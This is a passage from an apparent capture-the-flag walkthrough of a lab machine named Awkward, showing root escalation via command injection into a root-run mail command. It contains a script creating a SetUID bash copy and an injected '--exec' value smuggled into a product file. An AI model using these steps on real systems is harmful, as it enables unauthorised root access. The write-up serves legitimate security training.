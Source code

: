 [![image-20221004143500108](https://0xdfimages.gitlab.io/img/image-20221004143500108.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20221004143500108.png)

Immediately in PSpy:

    
    
    2022/10/05 05:34:46 CMD: UID=0    PID=3757   | mail -s Leave Request: 0xdf 0xdf christine 
    

#### Inject into mail

The [GTFOBins page for mail](https://gtfobins.github.io/gtfobins/mail/) shows
that I just need the `--exec=![full path]` to run something.

I’ll write a Bash script to create a SetUID `bash` binary (in `/tmp`, as
`/dev/shm` is mounted `nosuid`):

    
    
    bean@awkward:/var/www/store/product-details$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > /dev/shm/0xdf.sh
    bean@awkward:/var/www/store/product-details$ chmod +x /dev/shm/0xdf.sh
    bean@awkward:/var/www/store/product-details$ cat /dev/shm/0xdf.sh
    #!/bin/bash
    
    cp /bin/bash /tmp/0xdf
    chmod 4777 /tmp/0xdf
    

Now I’ll update the product:

    
    
    bean@awkward:/var/www/store/product-details$ head -1 1.txt > 223.txt
    bean@awkward:/var/www/store/product-details$ echo '0xdf --exec="!/dev/shm/0xdf.sh"' >> 223.txt 
    

On adding it to my cart, now `0xdf` exists and is SetUID for root:

    
    
    bean@awkward:/var/www/store/cart$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1396520 Oct  5 05:42 /tmp/0xdf
    

It works:

    
    
    bean@awkward:/var/www/store/cart$ /tmp/0xdf -p
    0xdf-5.1# cat /root/root.txt
    59fad68a************************
    

## Beyond Root

### Unintended Background

The path through Awkward relies on the user not getting execution as www-data
for it to make any sense. For the foothold, I’ll get file read access as www-
data, but use it to read bean’s backup file and get a shell as bean. To get
root, I’ll use symlinks to trick www-data into writing other files, triggering
the `mail` command injection.

